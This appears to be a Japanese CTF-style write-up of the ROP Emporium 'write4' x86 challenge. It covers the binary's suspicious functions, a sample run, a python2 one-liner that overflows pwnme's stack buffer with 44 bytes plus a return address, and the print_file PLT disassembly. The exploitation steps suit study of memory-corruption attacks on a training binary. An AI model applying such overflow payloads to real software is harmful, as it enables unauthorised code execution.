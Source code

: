```

```

なんかDescriptionを見て見るに、今回は/bin/cat flag.txtという文字がないので自分で入力したやつをどっかしらのメモリに入れる必要がありそう。

#### 怪しいところ

* pwnme
* usefulFunciton
* usefulGadgets
* print_file

### 動的解析　

```
❯ ./write432 
write4 by ROP Emporium
x86

Go ahead and give me the input already!

> werwr
Thank you!
```





まぁいつもどおり、pwnmeにスタックベースのバッファオーバフローの脆弱性がありそうなので見ていく.

```
❯ python2 -c "print 'A' * 44 + '\xb0\x83\x04\x08'" | ./write432
write4 by ROP Emporium
x86

Go ahead and give me the input already!

> Thank you!
write4 by ROP Emporium
x86

Go ahead and give me the input already!

> Thank you!
fish: Process 105826, './write432' from job 1, 'python2 -c "print 'A' * 44 + '\…' terminated by signal SIGSEGV (Address boundary error)
```

なんかよく分からんが、

print_fileに飛ばしてあげようか

```
080483d0 <print_file@plt>:
 80483d0:       ff 25 14 a0 04 08       jmp    DWORD PTR ds:0x804a014
 80483d6:       68 10 00 00 00          push   0x10
 80483db:       e9 c0 ff ff ff          jmp    80483a0 <.plt>
```
